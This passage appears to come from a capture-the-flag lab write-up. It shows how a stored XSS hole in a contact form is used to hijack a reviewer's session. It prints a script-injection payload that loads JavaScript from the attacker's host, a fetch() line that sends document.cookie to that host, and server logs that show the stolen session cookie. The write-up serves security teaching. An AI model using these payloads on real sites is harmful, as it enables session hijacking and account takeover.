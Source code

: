 ## Access as mod

Testing this password against the login form at `/login.php` was not successful, and there does not seem to be anything else interesting. Since we cannot log in, let's switch our attention to the contact form.

### XSS

Testing the form, upon submitting it, we get the message: `Thank you for your feedback! Someone from our team will review it shortly.`

![Web 80 Contact2](web_80_contact2.webp){: width="1200" height="600"}

Since our message seems to be reviewed, we can simply test the form for an XSS vulnerability with the payload `<script src="http://10.14.101.76/test.js"></script>` that tries to include a JavaScript file from our server in the message field:

![Web 80 Contact3](web_80_contact3.webp){: width="1200" height="600"}

After submitting the form, this works, as we receive a request for the `test.js` file on our server:

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.177.42 - - [19/Sep/2025 21:46:07] code 404, message File not found
10.10.177.42 - - [19/Sep/2025 21:46:07] "GET /test.js HTTP/1.1" 404 -
```

With this we are able to include a script and execute JavaScript in the victim's session. To leverage this, we can either look back at the `nmap` scan and notice the `httponly flag not set` message or simply check how the application sets our cookie. We see that the `HttpOnly` flag for the cookie is indeed not set, which allows us to access the cookies using JavaScript and exfiltrate them.

![Web 80 Cookie](web_80_cookie.webp){: width="1000" height="500"}

We can create the `test.js` file on our web server with the following content to exfiltrate cookies:

```js
fetch("http://10.14.101.76/?c="+document.cookie)
```
{: file="test.js" }

After creating `test.js`, we see the request returning `200`, and the next request sends the victim's cookies:

```console
10.10.177.42 - - [19/Sep/2025 21:49:49] "GET /test.js HTTP/1.1" 200 -
10.10.177.42 - - [19/Sep/2025 21:49:49] "GET /?c=PHPSESSID=k73b004qihakut11s5lv4s32lc HTTP/1.1" 200 -
```

Now we go back to the web application and change our cookie to the one we captured.

![Web 80 Cookie2](web_80_cookie2.webp){: width="1200" height="600"}
